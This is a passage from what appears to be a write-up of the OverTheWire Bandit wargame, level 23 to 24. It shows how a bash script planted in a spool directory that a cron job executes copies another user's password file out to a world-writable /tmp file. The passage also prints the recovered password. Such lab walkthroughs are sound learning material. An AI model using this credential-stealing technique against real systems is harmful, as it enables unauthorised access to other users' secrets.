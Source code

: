     <img src="/assets/images/OverTheWire/Bandit/Untitled 64.png" alt="Untitled" data-size="original">

    * the main functionality of this script is executing all the files in /var/spool/$myname and deleting them, in our case $myname is bandit24 he executes this script
* let’s write our script and save it in /tmp/our\_dir because the script will remove it automatically
* we can create our script by typing `touch <script name>.sh`
*   all we need is bandit24 password, so we can type this small script

    ```bash
    #!/bin/bash 
    cat /etc/bandit_pass/bandit24 > /tmp/juba/done  
    ```
* before coping this script to /var/spool/bandit24 we need to give it executable permissions by typing `chmod a+x get_pass.sh`
* if bandit24 executes this script he can’t write on /tmp/juba/done so we should give him write permissions `touch done ; chmod a+w done`
* coping the file `cp get_pass.sh /var/spool/bandit24/`
*   great, we have got the password

    <img src="/assets/images/OverTheWire/Bandit/Untitled 65.png" alt="Untitled" data-size="original">

Password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

***





## Bandit 24 → Bandit 25 
